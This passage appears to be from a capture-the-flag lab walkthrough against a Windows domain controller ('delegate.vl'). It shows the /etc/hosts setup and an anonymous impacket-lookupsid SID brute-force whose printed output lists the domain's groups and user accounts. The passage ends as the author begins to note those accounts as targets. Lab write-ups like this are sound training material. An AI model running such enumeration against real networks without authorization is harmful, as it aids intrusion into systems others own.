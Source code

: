 Based on the output we can assume a few things:
- The machine is likely to be a domain controller
- Port 3389 is displaying DNS records that we can add to our `/etc/hosts` file
- Clock-skew is 1s, which should be ok when communicating to Kerberos

Lets add the domain to the `/etc/hosts` file:
```bash
> cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

10.10.88.149    DC1.delegate.vl delegate.vl DC1
```

## Bruteforce account SIDS
Using impacket-lookupsid we can bruteforce the accounts SIDs and retrieve some data, including user account names:
```bash
> impacket-lookupsid anonymous@delegate.vl
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Brute forcing SIDs at delegate.vl
[*] StringBinding ncacn_np:delegate.vl[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1484473093-3449528695-2030935120
498: DELEGATE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: DELEGATE\Administrator (SidTypeUser)
501: DELEGATE\Guest (SidTypeUser)
502: DELEGATE\krbtgt (SidTypeUser)
512: DELEGATE\Domain Admins (SidTypeGroup)
513: DELEGATE\Domain Users (SidTypeGroup)
514: DELEGATE\Domain Guests (SidTypeGroup)
515: DELEGATE\Domain Computers (SidTypeGroup)
516: DELEGATE\Domain Controllers (SidTypeGroup)
517: DELEGATE\Cert Publishers (SidTypeAlias)
518: DELEGATE\Schema Admins (SidTypeGroup)
519: DELEGATE\Enterprise Admins (SidTypeGroup)
520: DELEGATE\Group Policy Creator Owners (SidTypeGroup)
521: DELEGATE\Read-only Domain Controllers (SidTypeGroup)
522: DELEGATE\Cloneable Domain Controllers (SidTypeGroup)
525: DELEGATE\Protected Users (SidTypeGroup)
526: DELEGATE\Key Admins (SidTypeGroup)
527: DELEGATE\Enterprise Key Admins (SidTypeGroup)
553: DELEGATE\RAS and IAS Servers (SidTypeAlias)
571: DELEGATE\Allowed RODC Password Replication Group (SidTypeAlias)
572: DELEGATE\Denied RODC Password Replication Group (SidTypeAlias)
1000: DELEGATE\DC1$ (SidTypeUser)
1101: DELEGATE\DnsAdmins (SidTypeAlias)
1102: DELEGATE\DnsUpdateProxy (SidTypeGroup)
1104: DELEGATE\A.Briggs (SidTypeUser)
1105: DELEGATE\b.Brown (SidTypeUser)
1106: DELEGATE\R.Cooper (SidTypeUser)
1107: DELEGATE\J.Roberts (SidTypeUser)
1108: DELEGATE\N.Thompson (SidTypeUser)
1121: DELEGATE\delegation admins (SidTypeGroup)
```
The output show the following user accounts that could be potential targets in future:
